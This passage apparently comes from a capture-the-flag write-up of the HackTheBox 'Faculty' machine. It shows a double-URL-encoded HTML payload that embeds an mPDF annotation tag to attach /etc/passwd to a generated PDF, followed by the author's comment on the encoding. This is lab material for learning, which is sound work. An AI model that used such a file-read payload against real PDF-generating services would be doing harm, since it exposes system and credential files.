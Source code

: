 ```bash
%253Ch1%253E%253Ca%2Bname%253D%2522top%2522%253E%253C%252Fa%253Efaculty.htb%253C%252Fh1%253E%253Ch2%253ECourses%253C%252Fh2%253E%253Ctable%253E%2509%253Cthead%253E%2509%2509%253Ctr%253E%2509%2509%2509%253Cth%2Bclass%253D%2522text-center%2522%253E%2523%253C%252Fth%253E%2509%2509%2509%253Cth%2Bclass%253D%2522text-center%2522%253ECourse%253C%252Fth%253E%2509%2509%2509%253Cth%2Bclass%253D%2522text-center%2522%253EDescription%253C%252Fth%253E%2509%2509%2509%253C%252Ftr%253E%253C%252Fthead%253E%253Ctbody%253E%253Ctr%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E1%253C%252Ftd%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E%253Cb%253EInformation%2BTechnology%253C%252Fb%253E%253C%252Ftd%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E%253Csmall%253E%253Cb%253EIT%253C%252Fb%253E%253C%252Fsmall%253E%253C%252Ftd%253E%253C%252Ftr%253E%253Ctr%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E2%253C%252Ftd%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E%253Cb%253EBSCS%253C%252Fb%253E%253C%252Ftd%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E%253Csmall%253E%253Cb%253EBachelor%2Bof%2BScience%2Bin%2BComputer%2BScience%253C%252Fb%253E%253C%252Fsmall%253E%253C%252Ftd%253E%253C%252Ftr%253E%253Ctr%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E3%253C%252Ftd%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E%253Cb%253EBSIS%253C%252Fb%253E%253C%252Ftd%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E%253Csmall%253E%253Cb%253EBachelor%2Bof%2BScience%2Bin%2BInformation%2BSystems%253C%252Fb%253E%253C%252Fsmall%253E%253C%252Ftd%253E%253C%252Ftr%253E%253Ctr%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E4%253C%252Ftd%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E%253Cb%253EBSED%253C%252Fb%253E%253C%252Ftd%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E%253Csmall%253E%253Cb%253EBachelor%2Bin%2BSecondary%2BEducation%253C%252Fb%253E%253C%252Fsmall%253E%253C%252Ftd%253E%253C%252Ftr%253E%253Ctr%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E5%253C%252Ftd%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E%253Cb%253EMath%253C%252Fb%253E%253C%252Ftd%253E%253Ctd%2Bclass%253D%2522text-center%2522%253E%253Csmall%253E%253Cb%253E%253Cannotation%2Bfile%253D%2522%252Fetc%252Fpasswd%2522%2Bcontent%253D%2522%252Fetc%252Fpasswd%2522%2Bicon%253D%2522Graph%2522%2Btitle%253D%2522Attached%2BFile%253A%2B%252Fetc%252Fpasswd%2522%2Bpos-x%253D%2522195%2522%2B%252F%253E%253C%252Fb%253E%253C%252Fsmall%253E%253C%252Ftd%253E%253C%252Ftr%253E%253C%252Ftboby%253E%253C%252Ftable%253E
```

The encoding seems unusal than regular urlencoding, after googling I found out this is double-encoded

![photo5](/assets/images/2022-11-18-htb-faculty/Pasted_image_20220704192429.png)
